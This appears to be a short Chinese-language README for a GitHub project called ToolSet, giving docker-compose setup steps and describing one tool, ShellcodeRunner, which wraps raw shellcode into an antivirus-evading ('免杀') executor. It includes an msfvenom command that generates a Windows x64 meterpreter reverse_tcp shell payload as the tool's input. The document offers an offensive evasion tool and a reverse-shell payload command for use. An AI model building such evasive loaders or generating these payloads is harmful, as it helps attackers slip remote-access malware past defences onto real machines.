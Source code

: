 # ToolSet

一个小小的工具集

## 安装

```shell
git clone $repo_url

sudo docker-compose build && sudo docker-compose up -d
```

访问 `http://127.0.0.1:8080/swagger/index.html` 即可查看接口文档


## 工具列表

### ShellcodeRunner

一个shellcode包装器，可根据提供的shellcode raw[`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > ~/shell.raw`]文件
生成免杀的执行器
